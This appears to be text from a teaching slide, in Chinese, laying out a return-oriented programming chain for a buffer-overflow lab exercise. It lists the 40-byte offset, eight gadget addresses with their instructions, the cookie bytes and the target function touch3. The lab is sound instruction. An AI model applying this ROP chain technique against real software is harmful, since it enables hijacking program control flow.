

地址（实际地址随机，这里表示相对值
内容
cookie
35 39 62 39 39 37 66 61
0x78

touch3
0x4018fa
0x70
gadget 8 : movq %rax,%rdi
0x4019a2
0x68
gadget 7 : 	      add_xy
0x4019d6
0x60
gadget 6 : movl %ecx,%esi
0x401a27
0x58
gadget 5 : movl %edx,%ecx
0x401a34
48 字节
0x50
gadget 4 : movl %eax,%edx
0x4019dd
0x48
偏移量
offset == ??
0x40
gadget 3 :	     pop %rax
0x4019ab
0x38
gadget 2 : movq %rax,%rdi
0x4019a2
0x30
gadget 1 : movq %rsp,%rax
0x401a06
0x28
getbuf 本身使用的地址，这里会存放输入的串
0